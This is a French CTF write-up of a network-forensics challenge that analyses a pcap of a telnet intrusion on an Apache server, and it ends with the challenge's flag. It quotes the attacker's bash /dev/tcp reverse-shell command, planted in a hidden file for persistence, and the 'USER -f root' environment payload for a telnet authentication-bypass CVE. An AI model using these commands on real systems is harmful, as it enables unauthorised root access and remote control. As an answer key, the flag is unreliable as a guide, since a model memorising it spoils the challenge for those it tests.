

# Exfiltration Kantik [1/3]



## Fichiers du challenge

* **network_capture.pcap** : fichier original du challenge (non modifié)

## Solution

<details>
<summary>Cliquez pour dévoiler la solution</summary>

### Version du serveur Apache

* On cherche `apache` (chaîne / détails du paquet), on tombe alors sur un paquet.
* On suit le flux HTTP :
    ```
    GET / HTTP/1.0

    HTTP/1.1 200 OK
    Date: Thu, 30 Apr 2026 10:50:36 GMT
    Server: Apache/2.4.66 (Debian)
    [...]
    ```

✅ Version du serveur Apache sur le serveur : `2.4.66`

### Reverse shell

* Ce mot clé "reverse shell" dans l'énoncé constitue un pivot très interessant.
* On peut commencer par chercher des traces de commandes dans les paquets.
*   Une commande très connue de recon est le fameux `whoami` (qui permet de savoir sous quel utilisateur la session est lancée).
* En cherchant `whoami` (chaîne / détails du paquet), on tombe sur un paquet TCP (telnet). On suit le flux TCP.
* En observant les données échangées (commandes et réponses), on déduit les IP respectives de l'attaquant et du serveur victime.

✅ IP de l'attaquant : `192.168.122.133`<br>
✅ IP du serveur victime de l'attaque : `192.168.122.177`

* En continuant d'explorer les échanges sur ce même flux TCP, on tombe sur la ligne suivante :
    ```
    echo 'bash -i >& /dev/tcp/192.168.122.133/4444 0>&1' >> /opt/.system_update
    ```
* L'attaquant met ici en place le reverse shell mentionné dans l'énoncé, sur le port `4444`.

✅ Port cible du reverse shell que l'attaquant met en place sur le serveur : `4444`

### CVE pour prendre possession du serveur

* On continue à exploiter la piste des échanges via Telnet.
* En fouillant de fond en comble, on tombe sur les premiers paquets avec ce protocole, dont un qui mentionne :
    ```
    Telnet
        Will Terminal Type
            Command: Will (251)
            Subcommand: Terminal Type
        Suboption Terminal Type
            Command: Suboption (250)
            Subcommand: Terminal Type
                Here's my Terminal Type
                Value: IBM-3279-4-E
        Suboption End
    ```
* On fait des recherches sur `IBM-3279-4-E`, qui nous mène au terminal IBM 3270.
    * Ce type de terminal legacy est émulable via des outils comme `x3270` ou `s3270`.
* En cherchant cette fois `x3270 telnet cve`, on tombe sur la [CVE-2026-24061](https://www.txone.com/blog/cve-2026-24061-gnu-inetutils-telnet-exploitation/).
* Une chaîne typique indiquée pour l'exploitation de cette CVE ressemble à ceci :
    ```
    NEW-ENVIRON VAR "USER" VALUE "-f root" [...]
    ```
* En regardant les quelques paquets juste avant les premières executions de commandes par l'attaquant, on tombe sur la ligne suivante :
    ```
    Telnet
        [...]
        Suboption New Environment Option
            Command: Suboption (250)
            Subcommand: New Environment Option
                Option data: 000055534552012d6620726f6f74
        Suboption End
    ```
* En décodant la partie en hexa (cyberchef), on obtient :
    ```
    USER
    -f root
    ```
* On a une forte correspondance, on peut donc raisonnablement conclure qu'il s'agit bien de la CVE exploitée.

✅ Numéro de la CVE exploitée pour prendre possession du serveur : `CVE-2026-24061`

### Flag

- Rappel sur le format du Flag : éléments dans cet ordre séparés par des "_"
    - IP de l'attaquant
    - IP du serveur victime de l'attaque
    - Version du serveur Apache sur le serveur
    - Numéro de la CVE exploitée pour prendre possession du serveur
    - Port cible du reverse shell que l'attaquant met en place sur le serveur
- Ex : 404CTF{10.5.1.9_10.1.1.4_6.10.2_CVE-1999-12345_80}

`404CTF{192.168.122.133_192.168.122.177_2.4.66_CVE-2026-24061_4444}`

</details>